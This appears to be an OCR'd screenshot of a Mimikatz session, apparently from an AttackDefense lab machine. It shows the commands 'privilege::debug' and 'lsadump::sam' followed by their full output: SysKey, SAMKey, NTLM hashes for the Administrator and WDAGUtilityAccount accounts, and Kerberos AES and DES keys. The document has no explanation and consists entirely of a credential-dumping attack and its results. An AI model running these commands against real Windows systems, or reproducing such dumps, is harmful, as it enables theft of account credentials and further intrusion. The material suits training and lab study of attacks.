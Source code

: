 mimikatz # 

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::sam
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ed1f5e64aad3727f03522bbddc080d77

* Primary:Kerberos-Newer-Keys *
    Default Salt : ATTACKDEFENSEAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f566d48c0c62f88d997e9e56b52eed1696aead09df3100982bcfc5920655da5d
      aes128_hmac       (4096) : bf0ca9e206e82ce481c818070bef0855
      des_cbc_md5       (4096) : 6d570d08df8979fe
    OldCredentials
      aes256_hmac       (4096) : 69d101a02f3f4648bf9875f10c1cd268d3f500c3253ab862222a9e1bb3740247
      aes128_hmac       (4096) : 3c3fd899f7f004ed44e9e48f868a5ddc
      des_cbc_md5       (4096) : 9b808fb9e0cbb3b5
    OlderCredentials
      aes256_hmac       (4096) : 4cbbe8ad8482ca76952b08cd9103ba91af35c9d8b21a3d49c332e072618a9fa9
      aes128_hmac       (4096) : b18addd75f8a2b106b262c7b5e517623
      des_cbc_md5       (4096) : 7fe0c2a15eb32fcd

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ATTACKDEFENSEAdministrator
    Credentials
      des_cbc_md5       : 6d570d08df8979fe
    OldCredentials
      des_cbc_md5       : 9b808fb9e0cbb3b5


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1
